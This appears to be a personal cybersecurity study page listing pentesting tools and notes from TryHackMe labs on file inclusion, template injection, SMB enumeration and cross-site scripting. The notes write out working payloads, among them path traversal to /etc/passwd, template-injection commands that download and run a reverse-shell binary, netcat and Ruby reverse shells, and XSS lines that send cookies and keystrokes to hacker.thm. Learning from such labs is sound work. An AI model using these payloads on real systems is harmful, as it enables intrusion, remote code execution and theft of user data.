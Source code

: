 ---

#   Cybersecurity: Notes and Projects



----- 

[Back to website home page](https://jeremylaratro.link)

-----

> ### **My latest post:**
## [OWASP Juice Shop -- Notes and Walkthrough](/CS/juice_shop)
### Next post: Algorithm & Data Structure Notes in Python

-----------

### **Resources: My Reading List & Accounts**
<details>

<summary>
My Reading List & Resources
</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* [Codecademy Profile](https://www.codecademy.com/profiles/JeremyLaratro)
* [TryHackme.com Profile (In the top 8% of users!)](https://tryhackme.com/p/jeremylaratro)
* HackTheBox.com 
* Hacktricks.xyz
* [Picoctf.org Profile](https://play.picoctf.org/users/jeremylaratro)
* [LeetCode Profile](https://leetcode.com/jeremylaratro/)

</details>


----------


### **Overview, Tools, and Pathways**

>These are some of the go-to tools I use when starting a machine, CTF, challenge, etc. These tools generally fall into the 
> reconnaissance and vulnerability assessment steps. 

<details>

<summary>
General Enumeration | Scanning | Reconnaissance
</summary>


>>#### whatweb

>- This is often the first tool used when given a domain, to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.


>>####  Nmap  

>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even vulnerability assessment via
>- scripts. 


>>####  wpscan  

>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.


>>####  Nessus  

>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack


>>####  OWASP Zap  

>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.


>>####  Dig, dnsenum, and nslookup

>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs.</details>

>>####  Shodan
> - Extremely powerful banner search engine.

</details>

-----------

<details>
 
<summary>
|Exploitation and Investigation Tools|
</summary>




### **Web and Network Exploitation**

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.


>####  BURP Suite

>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses

>####  Metasploit

>> - Massive collection of known exploits, scripts, payloads, and database

>####  SQLMap 

>> - SQLi scanner and exploitation tool

>####  dirb, dirbuster, gobuster 

>> - Directory enumeration

>####  ffuf, hydra 

>> - Web fuzzing, directory enumeration, account brute forcing

>####  sstimap, lfimap 

>> - LFI and SSTI vulnerability scanner and exploitation tool

>####  xsssniper

>> - XSS scanner and exploitation tool

>####  rapidscan 

>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 


----------


### **Offline Tools**


>####  hashcat

>> - GUI-accelerated password cracking tool. Extremely quick.

>####  John the Ripper

>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 

>####  cewl, crunch

>> - Custom password and wordlist generators


>####  binwalk, exiftools, strings, cat

>> - Linux file analysis tools

</details>

----------

### **Areas I'd Like to Improve**



<details>

<summary>
Areas I'd Like to Improve
</summary>


>####  Reverse Engineering

> - One of the areas I'd specifically like to improve in is reverse engineering. This requires a solid working knowledge
> of languages commonly used to build malware, which leads to the next area I'd like to improve -- expanding my programming knowledge.

>####  Programming

> - Currently, I am intermediate with Python, and beginner/intermediate with Java and C++ (ie. comfortable with general OO, functions, 
> classes, namespaces, and familiar with pointers, but not as efficient or fluent with them as I am with Python 
> (ie. with Leetcode, for example, problems which challenge me in Python are extremely difficult for me in C++. I'd
> like to improve my proficiency in C++ and Java, and also increase the number of languages that I am at least
> comfortable with in terms of syntax. 

>#### SSTI and RCE

> - I would like to become less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and thus,
> I need to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.

</details>


----------

## **Notes**
> *Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.*


<details>
<summary>
Local File Inclusion and Remote File Inclusion Overview
</summary>

-----

>### **LFI: Local File Inclusion**

-----

Notes from TryHackMe's LFI/RFI room. 


Local file inclusion is a vulnerability that can allow attackers to 

traverse the file system due to improperly or non-sanitized requests. 

This may allow an attacker to access sensitive files, ie /etc/passwd


Commonly used attack vector for LFI is '/../../'


````

get.php?file=../../../../etc/passwd

````


This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.

This can be determined by encouraging an error, ie:


````

 index.php?lang=jfbdsgd

 ````

 which then may return an error containing something along the lines of:


````

 in /var/www/html/lab2.php on line 26'

 ````

 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:


 ```python

 index.php?lang=../../../../etc/passwd

 ```

 OS info can be derived as well:


```

 /get.php?file=../../../../boot.ini

 /get.php?file=../../../../windows/win.ini

 
 ```

 Sanitization and filter evasion:

 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended

 index.php?lang=../../../../etc/passwd%00

 
 Using a '.' can also be used to signify staying within the directory


````

 ../../../../etc/passwd/.

 ````

 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.

 Evasion may be as simple as adding an extra layer, ie:


````

 /../../../etc/passwd  --> /../../../../etc/passwd

 ````


 Burp suite can be used to evade any request filters that may filter or change characters

Try POST, GET 

If _REQUEST is being used, take advantage of cookies: 


````

POST /challenges////////////chall3.php HTTP/1.1

Host: 10.10.120.210

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.120.210/challenges///////////chall3.php?file=

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: =../../../etc/flag3

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 25


file=../../../etc/flag3%00

```` 


--------------------------


>### **RFI: Remote File Inclusion**


---------

 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:

allow_url_fopen


Overview:

Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed


````

GET /page.php?file=

lang=http://0.0.0.0/r.elf

````


````

O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 

````


Tools:


````

- lfimap

- lfitester

- vailyn

````


</details> 


<details>
<summary>
Server-Side Template Injection - SSTI
</summary>


Notes from SSTI Lab on TryHackMe.


Common test-cases:


````

{7*7}

{{7*7}}'

a{{bar}}b

{var} ${var} {{var}} <%var%> [% var %]


````


1.  Start local server.


````

python3 -m http.server 80


````

2. Test functionality of python server remotely using JS and curl.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}


10.10.16.5


````

3. Create reverse shell payload and initialize a netcat listener for it. 


````

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf


nc -lvnp 443


````

4. Perform the SSTI, getting RCE on the server.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}


*{os.system("nc -e /bin/sh 10.10.16.5 5010")}

<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>

````


Tools:


````


- sstimap


````


</details>


<details>
<summary>
SMB Exploitation
</summary>


SMB- server message block

* Notes from TryHackMe's SMB room


Enumeration / Recon:

SMB uses port 445

A common service name is 'microsoft-ds'

After enumerating the system and finding a potential SMB exploitation pathway:

Further enumerate the SMB service using smbclient:


````


smbclient -L ip 


````


* Share names will be listed


	
Check for the guest or anonymous login, ie:

Sharenames:


````

ADMIN$

C$

WorkShares

````


After identifying potentially vulnerable share, attempt login:


````

smbclient \\\\ip\\<share>>

````


Upon entry --> 

* browse directories, look for sensitive files

* potential path traversal, pivot to other shares



</details>

-------

>### **XSS: Cross Site Scripting**

-------

<details>
<summary>
XSS
</summary>



Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data


Check:

	
~~~

<script>alert('XSS');</script>

~~~

	
Session stealing:

	
~~~

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

~~~

Key loggger:

	
~~~

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

~~~



	
~~~

<script>user.changeEmail('attacker@hacker.thm');</script>

~~~


#### Stored

Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 

Attack Vectors:

Comments on a blog

User profile information

Website Listings



#### Reflected

Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.

Attack Vectors:

Parameters in the URL Query String

URL File Path 


	
#### DOM

DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 

Attack Vectors:

eval()


	
#### Blind

Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.



Evasion:

	
~~~

"><script>alert(1);</script>

~~~

	
Close tag of encapsulating div:

	
~~~

</textarea><script>alert(1);</script>

~~~

	
Filter evasion:

Filter for 'script' --> sscriptcript

	
~~~

<sscriptcript>alert(1);</sscriptcript>

~~~

	
Within an image:

	
~~~

/images/cat.jpg" onload="alert(1);

~~~

	
Tools:

	
````

	
- xsshunter

- xsssniper

- xssstealer

- garud

- 0d1n

````


</details>



